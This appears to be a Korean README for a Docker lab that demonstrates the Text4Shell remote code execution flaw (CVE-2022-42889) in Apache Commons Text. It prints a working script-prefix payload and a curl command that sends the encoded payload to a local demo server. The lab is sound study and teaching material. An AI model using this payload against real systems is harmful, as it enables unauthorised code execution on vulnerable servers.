


# Apache Commons Text 원격 코드 실행 취약점 (CVE-2022-42889)

Apache Commons Text의 원격 코드 실행 취약점 (CVE-2022-42889, 일명 Text4Shell)을 시연하는 Docker 기반 환경을 구성한다.

---

## 취약점 개요

| 항목 | 내용 |
|:---|:---|
| 취약점 ID | CVE-2022-42889 |
| 영향 라이브러리 | Apache Commons Text |
| 문제 기능 | 문자열 보간 (String Interpolation) |
| CVSS 점수 | 9.8 (심각) |
| 영향 받는 버전 | 1.5 ~ 1.9 |
| 패치된 버전 | 1.10.0 이상 |

---

## 취약점 발생 원리

Apache Commons Text의 `StringSubstitutor` 클래스는 `${prefix:name}` 형식의 문자열 템플릿을 평가한다.  
취약한 버전에서는 다음과 같은 위험한 접두사가 기본 활성화되어 있다.

- `script:` : JVM 스크립트 엔진을 통한 코드 실행
- `dns:` : DNS 레코드 조회
- `url:` : 외부 URL에서 데이터 로드

공격자는 악성 입력을 통해 서버 측에서 임의의 명령어를 실행할 수 있다.

악성 입력 예시는 다음과 같다.

```text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```

### 디렉터리 구조
```text
CVE-2022-42889/
├── docker-compose.yml
├── Dockerfile
└── app/
    ├── pom.xml
    └── src/
        └── main/
            └── java/
                └── com/
                    └── example/
                        └── DemoApplication.java
```

### 시연
컨테이너 빌드 및 실행
``` text
docker-compose up --build -d
```
악성 입력 전달 (${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')} 인코딩 후, 입력)
``` text
curl "http://localhost:8080/test?input=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fhacked%27%29%7D"
```

컨테이너 내부 파일 생성 여부 확인

